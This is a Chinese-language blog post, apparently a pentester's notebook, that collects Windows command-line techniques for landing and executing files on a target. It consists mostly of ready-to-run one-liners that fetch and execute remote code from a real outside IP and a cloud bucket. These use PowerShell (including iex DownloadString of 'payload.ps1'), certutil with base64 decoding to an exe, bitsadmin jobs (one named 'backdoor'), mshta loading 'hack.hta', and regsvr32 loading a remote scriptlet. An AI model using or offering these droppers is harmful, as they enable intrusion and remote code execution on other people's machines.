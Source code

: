 ```yaml
---
layout: post
title: 命令行文件下载-Windows篇(长期更新)
---
```


> *文章长期更新，此文收集总结了Windows下 下载文件的各种姿势，对目标表进行文件的落地（或无落地）*

---

[TOC]

# 0x01 PoweShell

`win2003，winXP`不支持

踩坑

- Powershell 版本大于`2.0`时 在连接两个命令时 用 **空格** 替换了 `;`
- Powershell 等于`2.0`时 `DownloadFile()`函数不支持自定义保存路径 文件默认保存在`C:\Users\当前用户名` 下![image-20200403122054016](https://tva1.sinaimg.cn/large/00831rSTly1gdggmdhh09j311w0ecdit.jpg)![image-20200403121710725](https://tva1.sinaimg.cn/large/00831rSTly1gdggiiv0ndj30mo0f040i.jpg)



不指定保存路径兼容性更高


```powershell
powershell (new-object System.Net.WebClient).DownloadFile('http://47.92.194.173/test.txt', '1.bat');start-process '1.bat'
```

指定路径（Windows7以上适用）

```powershell
powershell (new-object System.Net.WebClient).DownloadFile('http://47.92.194.173/test.txt', '%temp%\1.bat');start-process '%temp%\1.bat'
```

`%temp%`指当前登陆用户的临时目录

powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://ottoknown.oss-cn-qingdao.aliyuncs.com/payload.ps1')"

TYPE payload.ps1 | PowerShell -noprofile -

---

# 0x02 Certutil

Path

- C:\Windows\System32\certutil.exe
- C:\Windows\SysWOW64\certutil.exe

踩坑

- 低版本certutil不支持指定下载的目录，为了兼容性可以直接在当前目录操作

```php
certutil -urlcache -split -f http://47.92.194.173/test.txt&ren 1.txt 1.bat&1.bat
或者
certutil -urlcache -split -f http://47.92.194.173/test.txt %temp%\1.bat&%temp%\1.bat
```

Certutil也支持base64加解密以及16进制解密

![image-20200403165312327](https://tva1.sinaimg.cn/large/00831rSTly1gdgohpx2oaj30lu052wfb.jpg)

```php
certutil -urlcache -split -f http://47.92.194.173/test.bs4 %temp%\1.bs4&certutil -decode %temp%\1.bs4 %temp%\1.exe&%temp%\1.exe
```

---

# 0x03 bitsadmin

Path:

- C:\Windows\System32\bitsadmin.exe
- C:\Windows\SysWOW64\bitsadmin.exe

踩坑：

- 在Windows7或某些版本的Windows10上会运行失败 出现以下报错

  > BITSAdmin is deprecated and is not guaranteed to be available in future versions
  > of Windows.
  >
  > BITSAdmin已弃用，并且不能保证在将来的Windows版本中可用。
  >
  > Administrative tools for the BITS service are now provided by BITS PowerShell cm
  > dlets.
  >
  > BITS PowerShell cmdlet现在提供了BITS服务的管理工具

  



```python
bitsadmin /transfer n http://github.com/3gstudent/test/raw/master/putty.exe c:\a.exe && c:\a.exe

bitsadmin /create 1 bitsadmin /addfile 1 http://47.92.194.173/test.txt c:\autoruns.bat bitsadmin /RESUME 1 bitsadmin /complete 1

bitsadmin /create 1 bitsadmin /addfile 1 http://47.92.194.173/test.txt C:\Program Files (x86)\1.bat bitsadmin /RESUME 1 bitsadmin /complete 1



bitsadmin /rawreturn /transfer getfile http://47.92.194.173/test.txt C:\Program Files\1.bat



bitsadmin /transfer myDownLoadJob /download /priority normal "http://47.92.194.173/test.txt" "C:\Program Files (x86)\1.bat"

bitsadmin /transfer backdoor http://47.92.194.173/test.txt C:\Program Files\1.bat

DISPLAY: '任务名' TYPE: DOWNLOAD STATE: TRANSFERRED PRIORITY: NORMAL FILES: 1 / 1 BYTES: 11392 / 11392 (100%) Transfer complete

默认情况下bitsadmin下载速度极慢，下载较大文件需要设置优先级提速，以下是用法示例：

\#下载filezilla FTP客户端，任务名是333 start bitsadmin /transfer 333 http://dwz.cn/fffftp c:\333.exe #设置任务333为最高优先级 bitsadmin /setpriority 333 foreground

bitsadmin 可以在网络不稳定的状态下下载文件，出错会自动重试，可靠性应该相当不错。
bitsadmin 可以跟随URL跳转.
bitsadmin 不像CURL WGET 这类工具那样能用来下载HTML页面。

bitsadmin 权限问题待解决

bitsadmin已经在win7 win10 win2008 不可用
```

---

# 0x04 mshta

mshta http://47.92.194.173/hack.hta 支持短网址

http://suo.im/5VA0Ut





regsvr32 /u /s /i:http://47.92.194.173/test1.sct scrobj.dll